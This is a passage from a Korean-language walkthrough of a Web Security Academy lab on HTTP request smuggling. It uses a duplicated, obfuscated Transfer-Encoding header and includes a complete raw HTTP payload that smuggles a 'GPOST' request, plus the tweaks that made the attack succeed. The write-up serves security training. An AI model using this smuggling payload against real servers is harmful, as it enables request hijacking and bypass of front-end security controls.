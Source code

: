 여기에 TE헤더를 애매하게(Obfuscating)만들기 위한 헤더 `Transfer-encoding: identity`를 추가한다. 다음과 같다. 이 페이로드가 전달되면 백엔드에는 `x=1\r\n` 까지를 하나의 요청으로 처리하고, 다음 요청은 `GPOST ~` 가 될 것이다. 

```http
POST / HTTP/1.1
Host: xxxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Transfer-Encoding: chunked
Transfer-encoding: identity

x=1
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

## 3. 스머글링 시도 

그런데 문제2와 마찬가지로 위의 x=1가 있으면 어째선지 `"error":"Invalid request"`가 돌아온다. 

![스머글링 실패](/images/burp-academy-hrs-3-2.png)

x=1을 5c로 바꾸고, CL헤더 길이를 4로 바꿔서 보낸다. 첫번째 요청은 200응답이 돌아오고, 동일한 요청을 한번더 보내면 `"Unrecognized method GPOST"` 메세지가 돌아온다. 

![풀이 성공시의 요청](/images/burp-academy-hrs-3-3.png)
